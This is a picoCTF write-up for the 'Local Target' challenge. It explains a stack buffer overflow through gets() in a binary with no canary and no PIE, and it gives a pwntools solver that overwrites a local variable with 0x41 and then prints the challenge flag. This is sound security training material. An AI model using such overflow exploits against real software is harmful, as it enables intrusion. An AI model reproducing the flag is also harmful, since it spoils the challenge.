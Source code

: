# Local Target
> Write-up author: jon-brandy
## DESCRIPTION:
Smash the stack Can you overflow the buffer and modify the other local variable? 
The program is available here. You can view source here. And connect with it using: [YOUR NETCAT]

## HINT:
- Do anything you can to change num.
- When you change num, view the value as hexadecimal.

## STEPS:
1. After launched the instance, we have 2 files. The source code and it's binary.
2. Let's check the binary protections.

> 64 bit binary, No Canary, No PIE

![image](https://github.com/jon-brandy/CTF-WRITE-UP/assets/70703371/92b3fc5e-5e74-4ab1-93a7-3d688920cdd2)


3. Since we got the source code, hence no need to decompile it.
4. I ran static analysis and found a potential of BOF because the binary accepts input using gets() function.

![image](https://github.com/jon-brandy/CTF-WRITE-UP/assets/70703371/9292b99c-d85d-4c08-81a2-ddd3748a0f64)


5. And we need to change the value of `num` variable to 65 in order to get the flag.
6. So the concept here is overwriting stack variable using BOF.
7. Let's find the RBP offet using gdb.

> Sending 1024 bytes (overflowing the buffer, actually more than 16 is enough)

![image](https://github.com/jon-brandy/CTF-WRITE-UP/assets/70703371/1623c667-2756-4705-b19a-b543f26ba1ba)

> Get the offset

![image](https://github.com/jon-brandy/CTF-WRITE-UP/assets/70703371/61f1bea8-f41e-4377-99d0-086ab075614c)


8. The second offset is the RBP offset. Well we know our buffer hit the RBP at 32 bytes. Since it's a 64 bit binary, hence we need to Uminus(8) or plus by 8 the RBP offset to get the correct stack offset to overwrite the variable value.
9. Let's start by Uminus it --> 32.
10. Here's the solver:

```py
from pwn import * 
import os 

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a , **kw)
    else:
        return process([exe] + argv, *a, **kw)

exe = './local-target'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'

sh = start()

padding = 24

p = flat([
    asm('nop') * padding,
    0x41 # 65 
])

sh.sendlineafter(b':', p)

get = sh.recvall()
info(get)
```

> TEST LOCALLY WITH LOCAL FLAG

![image](https://github.com/jon-brandy/CTF-WRITE-UP/assets/70703371/7ddfa272-f291-487a-960c-3af972227202)

11. Great! Now let's send the script remotely.

> RESULT

![image](https://github.com/jon-brandy/CTF-WRITE-UP/assets/70703371/4a6f19ea-3ff5-4e02-acb0-3286965e7f87)

12. Got the flag!

## FLAG:

```
picoCTF{l0c4l5_1n_5c0p3_ee58441a}
```

